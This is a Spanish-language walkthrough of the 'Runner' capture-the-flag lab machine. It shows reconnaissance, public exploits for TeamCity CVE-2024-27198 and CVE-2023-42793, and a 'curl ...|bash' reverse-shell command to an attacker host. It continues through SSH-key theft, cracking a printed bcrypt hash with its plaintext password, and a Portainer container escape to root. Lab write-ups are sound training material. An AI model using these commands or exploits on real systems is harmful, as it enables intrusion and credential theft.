Runner
- realizo un escaneo de puertos nmap 10.10.11.13 -Pn -sC -sV -p- --open --stats-every=5s -oA scan
- Encuentro los servicios: 22 → ssh → OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0) 80 → http → nginx 1.18.0 (Ubuntu) 8000 → nagios-nsca → Nagios NSCA → Open Source IT system monitoring tool.
- Entro en la página web
- Nos da error al encontrar el server
- Lo añadimos a /etc/hosts
- Para ver las tecnologías que usa hago un whatweb de la página whatweb http://runner.htb/
- Hago un Directory Bruteforce attack para buscar algún login o algún directorio para obtener una reverse gobuster dir -u http://runner.htb/ -w /usr/share/wordlists/dirb/big.txt

- encuentro /assets
- hago un ffuf para buscar otras rutas pero no encuentro nada ffuf -u http://runner.htb/ -H "Host: FUZZ.runner.htb" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 3058
- Pruebo a hacerlo con gobuster a ver si encuentro algún vhost interesante
gobuster vhost --append-domain -u http://runner.htb/ -w /usr/share/seclists/Discovery/DNS/namelist.txt --random-agent -t 600
- Encuentro un conjunto de vhosts pero hay uno interesante que tiene un login

- Lo añado a /etc/hosts
- Entro en la dirección y me manda a un login

- Tras buscar encuentro que TeamCity es un servidor de gestión de compilación e integración continua de JetBrains (Debajo del login está la versión)
- Para buscar vulnerabilidades para este login usaré la herramienta nuclei nuclei -tags teamcity -u teamcity.runner.htb
- Nos encuentra un CVE

- Encuentro una vulnerabilidad que permite bypassear usando una ruta alternativa vulnerable https://github.com/yoryio/CVE-2024-27198
- Ejecuto el exploit python3 CVE-2024-27198.py -t http://teamcity.runner.htb/login.html -u sergux -p sergux2
- Consigo acceso al dashboard como administrador

- Encuentro otros 2 usuarios
- Ahora tengo que buscar algún sitio donde subir o injectar mi payload
- Usando el script https://github.com/Zenmovie/CVE-2023-42793 Creo un usuario y puedo ejecutar comandos

- bbash CVE-2023-42793_rce.sh teamcity.runner.htb 80 "id"

- Ahora uso un reverse shell y activo nc para tener un RCE de forma algo más cómoda
- En la script cambio el comando

- Ejecuto el RCE y hago un curl de un reverse shell de bash y que lo ejecute en la consola bin bash CVE-2023-42793_rce.sh http://teamcity.runner.htb 80 "curl%20http://<IP>:<PORT>/rev-shell2%7Cbash"

- En esta ruta encuentro el id_rsa /data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/id_rsa
- Entro con ssh probando con los usuarios que encontré antes ssh john@runner.htb -i id_rsa
- Si me da error por permisos hago un chmod 600 id_rsa

- Descargo y uso linpeas.sh para buscar un privesc
- Encuentro un subdominio

- Agrego el subdominio a /etc/hosts
- Encuentro un login

- Tras mirar podemos hacer una backup de toda la DB. Obtengo el hash the todos los usuarios


- Lo crackeo con hashcat hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
- Encuentra la pass hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt --show $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em:piper123
- Entro al dashboard de portainer.io con los credenciales de matthew:piper123
- Como no tengo mucha idea de que es portainer me informo
- Portainer es una herramienta web open-source que permite gestionar contenedores Docker. Permite administrar contenedores de forma remota o local, la infraestructura de soporte y todos los aspectos de las implementaciones de Kubernetes
- Tengo que crear un nuevo volumen como root y ejecutarlo dentro del docker

- Contruyo el container usando la imagen de teamcity con el volumen root que acabo de crear

- Activo la tty interactiva

- Y le asigno el volumen de root

- Le doy a Deploy Container y nos aparece la lista de containers

- Ponemos como usuario del container al root

- Nos conectamos y encotramos la flag de root

{kind=link}